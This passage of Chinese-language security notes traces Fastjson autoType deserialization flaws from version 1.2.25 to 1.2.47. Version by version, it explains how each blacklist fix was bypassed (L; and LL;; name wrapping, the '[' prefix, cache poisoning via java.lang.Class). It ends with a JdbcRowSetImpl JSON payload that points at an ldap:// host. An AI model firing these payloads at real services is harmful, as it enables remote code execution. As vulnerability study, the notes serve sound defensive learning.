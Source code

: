 - JSON.parse(jsonStr, 131072)
- 修复方案：默认关闭`autoType`

### 1.2.25-1.2.41

需要AutoTypeSupport开启支持

ParserConfig增加autoTypeSupport属性开启支持自省模式的反序列化

checkautoType()f方法实行内置黑名单拦截

可以利用TypeUtils.loadClass的处理机制,在class名首尾添加L和; 进行逃过黑名单,前提是autoTypeSupport为true.

### 1.2.42

需要AutoTypeSupport开启支持

类名进行哈希校验，黑名单机制，改为类名hash值匹配

hash对应类名的github:`https://github.com/LeadroyaL/fastjson-blacklist`

并且check之前对类名的首尾删除一个字符

可以通过在首尾添加LL和;; 即添加两个来进行绕过,TypeUtils.loadClass的机制不变

- 攻击者利用双写类名 
    - LLcom.sun.rowset.JdbcRowSetImpl; 绕过黑名单

### 1.2.43

需要AutoTypeSupport开启支持

在原有防御机制之上,增加对LLxxxxxxx类型的类名进行匹配,匹配上抛异常.

还是利用TypeUtils.loadClass的机制,在类名前添加`[` 表示要反序列化的对象是数组

这就导致后续选择ObjectDeserializer解析器是会走到对Array类的解析器,而不是以往javaBean解析器

所以要修改字符串的元素分隔符的逗号, 改为数组的`[{`才不会报错

### 1.2.44-1.2.45

需要AutoTypeSupport开启支持

直接对`[`开头的类名匹配,抛异常, 已经无法绕过黑名单

转为发现新的利用链:

org.apache.ibatis.datasource.jndi.JndiDataSourceFactory

### 1.2.46-1.2.47

完善黑名单,增加org.apache.ibatis的hash

- 绕过checkAutoType检测的绕过方法，不在考虑ParserConfig.autoTypeSupport属性的影响
    - 利用缓存机制:
    - 可以将类放入缓存,后续再`checkautoType()`内可以直接从`TypeUtils`的缓存`mapping`拿到类对象
    - 首先利用白名单`java.lang.Class`，先将目标类加载到缓存mapping:
    - 缓存：`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`
    - 利用：`{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://x", "autoCommit": true}`
